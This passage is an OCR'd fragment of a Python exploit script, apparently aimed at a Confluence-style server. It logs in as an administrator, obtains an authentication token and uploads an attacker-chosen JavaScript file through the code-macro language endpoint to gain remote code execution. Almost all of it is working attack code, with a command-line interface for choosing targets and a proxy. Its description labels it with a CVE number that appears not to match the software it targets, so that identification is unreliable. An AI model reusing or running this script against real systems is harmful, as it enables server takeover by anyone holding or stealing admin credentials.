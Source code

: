 ```python
            return content_value

        else:
            print("Meta tag not found")

def LoginAsAdministrator(session, url, proxy, username, password):
    login_url = url + "/dologin.action"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = f"os_username={username}&os_password={password}&login=%E7%99%BB%E5%BD%95&os_destination=%2F"
    session.post(url=login_url, headers=headers, data=data, proxies=proxy, verify=False, timeout=20)

def DoAuthenticate(session, url, proxy, password, alt_token):
    login_url = url + "/doauthenticate.action"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = f"atl_token={alt_token}&password={password}&authenticate=%E7%A1%AE%E8%AE%A4&destination=/admin/viewgeneralconfig.action"
    session.post(url=login_url, headers=headers, data=data, proxies=proxy, verify=False, timeout=20)
def UploadEvilJsFile(session, url, proxy, jsFilename, jsFileContent, alt_token):
    url = f"{url}/admin/plugins/newcode/addlanguage.action"
    data = {
        "atl_token": alt_token,
        "newLanguageName": "test"
    }
    files = {
        "languageFile": (
        jsFilename, jsFileContent, "text/javascript")
    }
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
    }
    session.post(url, headers=headers, data=data, files=files, verify=False, proxies=proxy, timeout=20)

def ParseArgs():
    parser = argparse.ArgumentParser(description="CVE-2023-20198-RCE")
    parser.add_argument("-u", "--url", type=str, help="target url to check, eg: http://192.168.198.1:8090", required=True)
    parser.add_argument("-p", "--proxy", type=str, default="http://127.0.0.1:8083", help="proxy url, eg: http://127.0.0.1:8083", required=False)
    parser.add_argument("-au", "--admin-username", type=str, help="The username of the user who is in the Administrators group", required=True)
    parser.add_argument("-ap", "--admin-password", type=str, help="The password of the user who is in the Administrators group", required=True)
    parser.add_argument("-f", "--file", type=str, help="exploit file", default="exploit.js", required=True)
    parser.add_argument("-n", "--name", type=str, help="newLanguageName", default="test", required=True)
    return parser.parse_args()

if __name__ == '__main__':
    args = ParseArgs()
```